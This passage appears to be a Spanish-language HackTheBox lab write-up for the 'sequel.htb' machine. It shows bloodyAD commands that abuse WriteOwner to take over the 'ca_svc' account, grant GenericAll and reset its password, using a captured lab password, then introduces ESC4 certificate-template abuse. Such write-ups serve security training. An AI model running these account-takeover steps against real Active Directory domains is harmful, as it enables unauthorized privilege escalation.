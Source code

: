 ## Privilege Escalation

### Abuse of WriteOwner privileges on a user (to change a user's password) with bloodyAD

Se procedió a explotar este privilegio al asignarnos como propietarios del usuario `ca_svc` utilizando la función `WriteOwner`. Al convertirnos en propietarios, obtuvimos control total sobre el usuario. Posteriormente, para garantizar aún más el control, se otorgaron permisos de `GenericAll` sobre el usuario, lo que nos permitió ejecutar cualquier acción necesaria

Finalmente, se cambió la contraseña del usuario a `Password01!`. Con esta acción, logramos tener acceso y control absoluto sobre el objeto.

{% code overflow="wrap" %}
```bash
bloodyAD --host 10.10.11.51 -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' ryan

bloodyAD --host 10.10.11.51 -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' add genericAll 'ca_svc' ryan

bloodyAD --host 10.10.11.51 -d sequel.htb -u 'ryan' -p 'WqSZAF6CysDQbGb3' set password 'ca_svc' 'Password01!'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/3507_vmware_weLD5PPDh3.png" alt=""><figcaption></figcaption></figure>

Verificaremos que hemos logrado cambiar la contraseña del usuario `ca_svc@sequel.htb` correctamente.

```bash
nxc smb 10.10.11.51 -u 'ca_svc' -p 'Password01!'
```

<figure><img src="../../.gitbook/assets/3508_vmware_fXjZlmUWx2.png" alt=""><figcaption></figcaption></figure>

### ESC4 exploitation case with certipy-ad

Revisando en BloodHound el usuario recién obtenido, verificamos que forma parte del grupo (`Cert Publishers@sequel.htb`), y por el nombre de usuario, parece estar relacionado con los ADCS (Active Directory Certificate Services).

ADCS es el rol que maneja la emisión de certificados para usuarios, equipos y servicios en la red de Active Directory. Este servicio, si está mal configurado, puede presentar vulnerabilidades que los atacantes podrían explotar para elevar privilegios o acceder a información sensible.
